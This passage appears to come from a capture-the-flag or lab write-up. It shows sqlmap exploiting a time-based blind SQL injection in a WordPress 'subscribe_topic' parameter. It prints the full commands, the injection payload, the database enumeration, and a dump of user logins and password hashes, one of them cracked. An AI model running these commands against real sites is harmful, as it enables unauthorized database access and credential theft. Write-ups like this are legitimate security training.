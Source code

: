 #### SQLMap
```bash
sqlmap -r subscribe.req --batch --risk 3 --level 5 --random-agent --technique T
```

I'm using "--technique T" to use Time-Based techniques as we know it works from the POC.
SQLMap found the vulnerability:
```
sqlmap identified the following injection point(s) with a total of 67 HTTP(s) requests:
---
Parameter: subscribe_topic (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: subscribe_topic=1 AND (SELECT 4011 FROM (SELECT(SLEEP(5)))asIV)
---
[15:29:15] [INFO] the back-end DBMS is MySQL
```

We learned that the database is MySQL, we can add `--dbms=mysql` to the arguments so it goes faster.
Lets dump all the database names:
```
sqlmap -r subscribe.req --batch --risk 3 --level 5 --random-agent --technique T --dbms=mysql --dbs

[15:34:15] [INFO] fetching database names
[15:34:15] [INFO] fetching number of databases
[15:34:15] [INFO] retrieved: 2
[15:34:30] [INFO] retrieved: information_schema
[15:39:41] [INFO] retrieved: wordpress
```

The process is going ***VERY*** slow.

Wordpress by default creates a table called `wp_users`. More info [here](https://codex.wordpress.org/Database_Description#Table:_wp_users).
Inside this table it is stored details of the users. I'm interested in `user_login` and `user_pass`:
```bash
sqlmap -r subscribe.req --batch --risk 3 --level 5 --random-agent --technique T --dbms=mysql -D wordpress -T wp_users -C user_login,user_pass --dump

+------------+--------------------------------------------------+
| user_login | user_pass                                        |
+------------+--------------------------------------------------+
| john       | $P$B8eBH6QfVODeb/gYCSJRvm9MyRv7xz.               |
| Phoenix    | $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc.               |
| caue       | $P$BFBRbXQMHfyEdMmAe8dH519SB/83jZ0 (password123) |
| Jane       | $P$BJCq26vxPmaQtAthFcnyNv1322qxD91               |
| Jsmith     | $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G.               |
| Jack       | $P$BzalVhBkVN.6ii8y/nbv3CTLbC0E9e.               |
+------------+--------------------------------------------------+

```
